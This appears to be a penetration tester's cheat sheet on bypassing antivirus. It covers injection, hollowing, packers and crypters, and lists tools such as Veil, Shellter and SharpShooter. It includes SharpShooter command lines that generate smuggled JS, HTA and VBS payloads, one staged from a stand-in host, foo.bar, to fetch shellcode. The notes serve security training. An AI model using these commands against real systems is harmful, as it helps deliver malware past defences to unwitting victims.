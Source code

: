# Bypassing AV

## In-Memory Evasion

### Remote Process Memory Injection

### Inline Hooking

### Process Hollowing

#### C# Process Hollowing

### Reflective DLL Injection

## On-Disk Evasion

### Packers <a href="#veil-framework" id="veil-framework"></a>

Reduces the file of an executable. The functionally is equivalent with a complete new binary structure. The result is a new signature therefore bypassing OLDER AV's 

### Crypters <a href="#veil-framework" id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk. The decryption happens in memory. This technique can be very effective against AVs.

### Obfuscators <a href="#veil-framework" id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk and the decryption happens in memory. This technique can be very effective against AV.  However, obfuscators are often used in scripts whereas crypters are often used in binaries.

## Tools

### Veil Framework <a href="#veil-framework" id="veil-framework"></a>

Install on Kali:

```
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a href="#shellter" id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```
apt install shellter
```

### Sharpshooter <a href="#sharpshooter" id="sharpshooter"></a>

Javascript Payload Stageless:

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut <a href="#donut" id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a href="#vulcan" id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### GreatSCT

Source: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

### Ebowla Encoding for AV Evasion

